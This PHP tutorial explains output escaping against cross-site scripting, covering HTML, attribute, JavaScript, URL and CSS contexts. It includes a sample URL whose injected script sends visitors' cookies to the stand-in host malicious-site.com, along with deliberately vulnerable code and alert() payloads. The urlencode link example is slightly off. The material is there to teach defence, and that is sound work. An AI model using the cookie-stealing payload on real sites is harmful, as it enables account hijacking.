

# PHP Output Escaping

## Introduction

Output escaping is a critical security practice in PHP development that helps protect your applications from cross-site scripting (XSS) attacks and other injection vulnerabilities. When you display user input or data from external sources on your web pages without proper escaping, malicious actors can inject harmful code that executes in users' browsers or manipulates your application's behavior.

In this tutorial, we'll learn why output escaping is essential, how to implement it properly in PHP, and explore real-world examples to secure your applications.

## Why Output Escaping Matters

Imagine your PHP application has a simple form that asks for a user's name and then displays a greeting:

```php
<?php
$name = $_GET['name'];
echo "<div>Hello, $name!</div>";
?>
```

This seems innocent, but what if someone visits your page with this URL?

```
https://yourwebsite.com/greeting.php?name=<script>document.location='https://malicious-site.com/?cookie='+document.cookie</script>
```

Without proper escaping, the script tag would execute in the browser of anyone viewing the page, potentially stealing their session cookies and allowing attackers to hijack their accounts.

## Types of Output Contexts

Before we dive into escaping functions, it's important to understand that different contexts require different escaping techniques:

1. **HTML Context** - When outputting data within HTML elements
2. **HTML Attribute Context** - When outputting data within HTML attributes
3. **JavaScript Context** - When outputting data within JavaScript code
4. **CSS Context** - When outputting data within CSS
5. **URL Context** - When outputting data as part of a URL

Let's look at each context and how to properly escape for them.

## HTML Context Escaping

When outputting data within HTML elements, use `htmlspecialchars()` or `htmlentities()`:

```php
<?php
// User input
$userInput = "<script>alert('XSS Attack!');</script>";

// Unsafe output (vulnerable to XSS)
echo "Unsafe output: $userInput";

// Safe output with htmlspecialchars()
echo "Safe output: " . htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
?>
```

Output:
```
Unsafe output: <script>alert('XSS Attack!');</script>
Safe output: &lt;script&gt;alert(&#039;XSS Attack!&#039;);&lt;/script&gt;
```

The `htmlspecialchars()` function converts special characters to their HTML entities:
- `&` becomes `&amp;`
- `"` becomes `&quot;`
- `'` becomes `&#039;` (with ENT_QUOTES flag)
- `<` becomes `&lt;`
- `>` becomes `&gt;`

This prevents browsers from interpreting these characters as HTML or JavaScript.

### Key Parameters for htmlspecialchars()

```php
htmlspecialchars($string, $flags, $encoding, $double_encode);
```

- `$flags`: Determines which characters to escape
  - `ENT_QUOTES`: Escapes both single and double quotes
  - `ENT_HTML5`: Handles code as HTML 5
- `$encoding`: The character encoding (use 'UTF-8' for modern applications)
- `$double_encode`: Whether to encode existing HTML entities (default is true)

For most purposes, this is the recommended approach:

```php
htmlspecialchars($data, ENT_QUOTES, 'UTF-8');
```

## HTML Attribute Context

When outputting data within HTML attributes, you need to be especially careful:

```php
<?php
$userInput = 'onmouseover="alert(\'Attribute XSS\')"';

// Unsafe approach (vulnerable)
echo "<div class=\"$userInput\">Hover over me</div>";

// Safe approach
echo '<div class="' . htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8') . '">Hover over me</div>';
?>
```

## JavaScript Context

When embedding PHP variables in JavaScript, use `json_encode()` to properly escape the data:

```php
<?php
$userInput = "Hello, I'm trying to execute: </script><script>alert('XSS');</script>";

// Unsafe JavaScript output
echo "<script>var message = '$userInput';</script>";

// Safe JavaScript output
echo "<script>var message = " . json_encode($userInput, JSON_HEX_TAG | JSON_HEX_APOS | JSON_HEX_QUOT | JSON_HEX_AMP) . ";</script>";
?>
```

The `json_encode()` function ensures proper JavaScript string escaping and handles quotes correctly.

## URL Context

When outputting data as part of a URL (like in a link or redirect), use `urlencode()`:

```php
<?php
$userInput = "page.php?id=1&action=view";

// Unsafe URL
echo "<a href=\"$userInput\">Click here</a>";

// Safe URL
echo '<a href="' . htmlspecialchars(urlencode($userInput), ENT_QUOTES, 'UTF-8') . '">Click here</a>';
?>
```

## CSS Context

When outputting data within CSS, special care must be taken:

```php
<?php
$userColor = "red; expression(alert('CSS XSS'))";

// Unsafe CSS
echo "<style>body { color: $userColor; }</style>";

// Safer approach
echo "<style>body { color: " . preg_replace('/[^a-zA-Z0-9,\-#()]/', '', $userColor) . "; }</style>";
?>
```

In CSS contexts, it's often best to use whitelisting rather than escaping. Only allow specific safe values or patterns.

## Best Practices for Output Escaping

### 1. Escape at the Point of Output

Always escape data when it's being output, not when it's received:

```php
<?php
// WRONG: Escaping at input time
$name = htmlspecialchars($_POST['name'], ENT_QUOTES, 'UTF-8');
// What if you need to use $name in a database query or email later?

// RIGHT: Escape at output time
$name = $_POST['name']; // Store raw data
// Later, when outputting:
echo 'Hello, ' . htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
?>
```

### 2. Use Context-Aware Escaping

Different contexts require different escaping strategies:

```php
<?php
$data = "<script>alert('hello');</script>";

// HTML context
echo htmlspecialchars($data, ENT_QUOTES, 'UTF-8');

// JavaScript context
echo "<script>var message = " . json_encode($data) . ";</script>";

// URL context
echo '<a href="profile.php?name=' . urlencode($data) . '">Profile</a>';
?>
```

### 3. Use Template Systems with Auto-Escaping

Modern template engines often provide automatic context-aware escaping:

```php
// Using Twig template engine (example)
$template = $twig->load('template.html');
echo $template->render(['username' => $username]);
// Twig automatically escapes the username variable in the HTML context
```

## Real-World Example: Secure Profile Page

Let's build a simple but secure user profile page:

```php
<?php
// Assume we have user data from the database
$user = [
    'username' => '<jake>',
    'bio' => "I'm a web developer & security enthusiast",
    'website' => 'https://example.com?param=value',
    'favoriteColor' => 'blue'
];

// Output the profile information safely
?>
<!DOCTYPE html>
<html>
<head>
    <title>Profile: <?php echo htmlspecialchars($user['username'], ENT_QUOTES, 'UTF-8'); ?></title>
    <style>
        .user-section {
            border-color: <?php echo preg_replace('/[^a-zA-Z0-9#]/', '', $user['favoriteColor']); ?>;
        }
    </style>
    <script>
        // Safely passing data to JavaScript
        var userData = <?php echo json_encode($user, JSON_HEX_TAG | JSON_HEX_APOS | JSON_HEX_QUOT | JSON_HEX_AMP); ?>;
    </script>
</head>
<body>
    <div class="profile">
        <h1>Profile: <?php echo htmlspecialchars($user['username'], ENT_QUOTES, 'UTF-8'); ?></h1>
        
        <div class="bio">
            <h2>Bio:</h2>
            <p><?php echo htmlspecialchars($user['bio'], ENT_QUOTES, 'UTF-8'); ?></p>
        </div>
        
        <div class="website">
            <h2>Website:</h2>
            <a href="<?php echo htmlspecialchars($user['website'], ENT_QUOTES, 'UTF-8'); ?>" 
               title="Visit <?php echo htmlspecialchars($user['username'], ENT_QUOTES, 'UTF-8'); ?>'s website">
                <?php echo htmlspecialchars($user['website'], ENT_QUOTES, 'UTF-8'); ?>
            </a>
        </div>
    </div>
</body>
</html>
```

## Common Escaping Functions in PHP

Here's a quick reference of escaping functions for different contexts:



| Context | Function | Notes |
|---------|----------|-------|
| HTML | `htmlspecialchars()` | Use with ENT_QUOTES and 'UTF-8' |
| HTML Attributes | `htmlspecialchars()` | Use with ENT_QUOTES and 'UTF-8' |
| JavaScript | `json_encode()` | Use with JSON_HEX_* flags |
| URL | `urlencode()` | For query parameters |
| CSS | Whitelist patterns | Use regular expressions to validate |
| SQL | Prepared statements | Don't escape for SQL, use parameterized queries |

## Output Escaping vs. Prepared Statements

It's important to understand the difference between output escaping and prepared statements for database interaction:

- **Output escaping** prevents attackers from injecting code that runs in the client's browser (XSS)
- **Prepared statements** prevent SQL injection attacks that could compromise your database

Both are essential security practices but serve different purposes!

```php
<?php
// Prepared statement for database
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$username]);
$user = $stmt->fetch();

// Then escape for output
echo "Welcome, " . htmlspecialchars($user['username'], ENT_QUOTES, 'UTF-8');
?>
```

## Summary

Output escaping is a crucial security practice in PHP development. By properly escaping data in the correct context, you can prevent dangerous cross-site scripting (XSS) attacks and protect both your users and your application.

Key takeaways:

1. Always escape output, not input
2. Use the right escaping function for each context
3. Be especially careful with HTML attributes and JavaScript
4. Consider using template engines with automatic escaping
5. Remember that different security threats require different protections

## Exercises

1. Review an existing PHP project and identify places where output isn't properly escaped
2. Create a simple form that accepts user input and displays it safely in various contexts
3. Try to create an XSS payload and test it against your properly escaped page to verify it's secure
4. Implement a helper function that automatically applies the right escaping based on the context

## Additional Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PHP Manual: htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)
- [PHP Manual: json_encode](https://www.php.net/manual/en/function.json-encode.php)
- [PHP The Right Way: Security](https://phptherightway.com/#security)

Happy secure coding!